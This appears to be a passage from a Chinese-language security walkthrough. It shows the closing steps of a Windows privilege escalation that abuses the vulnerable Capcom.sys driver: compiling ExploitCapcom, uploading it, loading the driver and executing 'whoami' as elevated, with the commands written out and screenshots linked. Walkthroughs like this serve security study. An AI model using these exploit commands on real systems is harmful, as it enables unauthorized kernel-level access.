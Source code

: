 然后进行编译文件为 exe。  
[![](assets/1701678304-43bb9809f05d1427204b08acc39f1131.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173821-3318cfba-8f64-1.png)

上传工具  
接着进行工具上传。  
.\\ExploitCapcom.exe System\\CurrentControlSet\\dfserv C:\\ProgramData\\Capcom.sys

[![](assets/1701678304-3d20ab18e979f24e34c6e0c970baf44d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173830-38be38b0-8f64-1.png)

## 命令执行

[![](assets/1701678304-8aefc8466c06f14a00f933417385f536.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173841-3f178680-8f64-1.png)

成功执行了 whomai 命令  
.\\ExploitCapcom.exe LOAD C:\\ProgramData\\Capcom.sys .\\ExploitCapcom.exe EXPLOIT whoami
